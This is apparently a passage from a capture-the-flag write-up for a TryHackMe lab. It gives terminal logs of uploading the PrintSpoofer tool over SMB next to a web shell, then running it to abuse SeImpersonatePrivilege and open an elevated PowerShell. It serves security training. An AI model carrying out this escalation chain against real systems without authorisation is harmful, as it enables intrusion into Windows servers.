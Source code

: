 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

[PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

```
bibo318@parrot:~/CTFs/tryhackme/Relevant$ smbclient //10.10.9.11/nt4wrksv
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.9.11\nt4wrksv\
smb: \> ls
  .                                   D        0  Wed Oct 14 21:42:49 2020
  ..                                  D        0  Wed Oct 14 21:42:49 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  shell.aspx                          A  1015556  Wed Oct 14 21:42:50 2020

                7735807 blocks of size 4096. 5135045 blocks available
smb: \> put PrintSpoofer.exe
putting file PrintSpoofer.exe as \PrintSpoofer.exe (22.4 kb/s) (average 22.4 kb/s)
smb: \> ls
  .                                   D        0  Wed Oct 14 22:08:03 2020
  ..                                  D        0  Wed Oct 14 22:08:03 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  PrintSpoofer.exe                    A    27136  Wed Oct 14 22:08:04 2020
  shell.aspx                          A  1015556  Wed Oct 14 21:42:50 2020

                7735807 blocks of size 4096. 5135038 blocks available
smb: \> exit
```

```
c:\users\Bob\Desktop>cd C:\
cd C:\

C:\>cd \inetpub\wwwroot\nt4wrksv
cd \inetpub\wwwroot\nt4wrksv

C:\inetpub\wwwroot\nt4wrksv>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\inetpub\wwwroot\nt4wrksv

10/14/2020  01:08 PM    <DIR>          .
10/14/2020  01:08 PM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
10/14/2020  01:08 PM            27,136 PrintSpoofer.exe
10/14/2020  12:42 PM         1,015,556 shell.aspx
               3 File(s)      1,042,790 bytes
               2 Dir(s)  21,033,115,648 bytes free

C:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c powershell.exe
PrintSpoofer.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
```